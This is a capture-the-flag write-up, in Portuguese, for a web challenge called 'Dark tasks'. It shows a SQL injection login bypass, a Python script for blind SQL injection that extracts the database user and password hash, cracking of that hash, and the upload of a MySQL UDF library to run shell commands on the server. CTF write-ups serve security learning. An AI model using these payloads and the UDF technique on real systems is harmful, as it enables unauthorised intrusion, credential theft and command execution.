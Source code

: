 Dark tasks
==========

### Desc:

The Dark Tasks is a Hidden web belonging to a group of criminals who are planning their upcoming crime, so you need to reveal their secrets at their /Home

### Getting the flag:

Acessando a página http://178.63.58.69:8086/, havia uma imagem e no código-fonte
foi possível visualizar duas mensagens em b64. Ignorando elas, partimos para olhar
o `robots.txt`, o que nos deu uma boa pista:

```
User-agent: *
Disallow: /D4rk_MySQL.php
```

Acessando tal arquivo, notamos que se tratava de um Adminer, algo parecido com
phpmyadmin. O curioso é que ele aceitava fazer login com usuários inexistentes,
contudo sem qualquer privilégio.

Após uma dica do TheZakMan, percebi que havia deixado passar um detalhe na index do site.
A mensagem em b64 indicava uma outra página: `Th3-D4rk-T4sks/`.

Neste dir havia uma tela de login, a qual estava vulnerável a SQL injection.

Com um simples `') or 1=1-- ` foi possível efetuar o login. Olhando os links no meu,
notamos um outro arquivo que era possível injetar SQL (`viewtask.php?id=`). O que
pode nos ajudar descobrir que usuário está sendo usado para acessar o bd do site.

Desenvolvendo um código para ajudar nesse trabalho (não quis usar sqlmap), ficou:

```python
import requests
import string
import sys

def do_login():
	url = 'http://178.63.58.69:8086/Th3-D4rk-T4sks/'
	r = requests.post(url, data={'user': "') or 1=1-- "})
	return r

def do_viewtask(p,c):
	url = 'http://178.63.58.69:8086/Th3-D4rk-T4sks/viewtask.php'
	r2 = requests.get(url, params=p, cookies=c)
	return r2.text

def do_query(s,c):
	r2 = do_viewtask({'id': s.encode('base64')}, c)
	return r2.find('viewtask.php?') != -1

r = do_login()

match = ''
for n in xrange(50):
	found = False
	for c in string.digits + '@_*' + string.letters:
		payload = "' or user() like '%s%%' or '0" % str(match+c)
		payload = payload.replace('_', '\_')

		if do_query(payload, r.cookies):
			found = True
			match += c
			print match
			break
	if not found:
		print 'end!'
		break
```

Com esse código identifiquei que o usuário se tratava de `dark`. A partir dai,
foi ler o campo `password` da tabela `mysql.user` referente a este usuário.
Trocando o payload para:

`' or (select password from mysql.user where user = 'dark') like '%s%%' or '0`

Obtive o seguinte hash: `*E56A114692FE0DE073F9A1DD68A00EEB9703F3F1` (41-byte)

O que foi tarefa fácil para o **john**:

```
Loaded 1 password hash (MySQL 4.1 double-SHA-1 [128/128 SSE2 intrinsics 4x])
123123           (?)
guesses: 1  time: 0:00:00:00 DONE (Sat Nov 22 09:37:43 2014)  c/s: 1369  trying: 123123 - 888888
```

Agora então voltando para o Adminer, posso logar com `dark/123123` e ver se tem
permissão pra fazer alguma coisa. (Neste ponto, já havia tido a dica do TheZakMan
que havia dito que usou UDF pra resolver) Então fui direto pensar em como jogar uma
**lib_mysqludf_sys.so** lá no servidor. (lib encontrada no google que forneceve varias
funções sys_* para executar comandos no servidor)

Como o servidor não tinha a função `from_base64`, pensei em passar o hex do binário
da lib.

`$ python -c "print open('lib_mysqludf_sys.so').read().encode('hex')"`

E rodando o SQL lá no Adminer:

`select unhex('7f454c4601010100000000000000000...') into dumpfile '/usr/lib/mysql/plugin/sigsegv.so' from dual`

Percebemos que a query foi executada com sucesso! Agora então só bastava criar uma UDF que executasse comando no servidor
que retornasse o output. Então escolhemos a `sys_eval` da lib, e criamos executando:

`CREATE FUNCTION sys_eval RETURNS string SONAME 'sigsegv.so';`

Tornando possível verificar os arquivos no servidor (`ls`), o que logo nos levou a:

`select sys_eval('cat /home/Th3_D@rk_S3cr3t/FL@g_Bala7.txt') from dual`

Que nos deu: FLag(Th3_Gr3@t_7aMaDa)
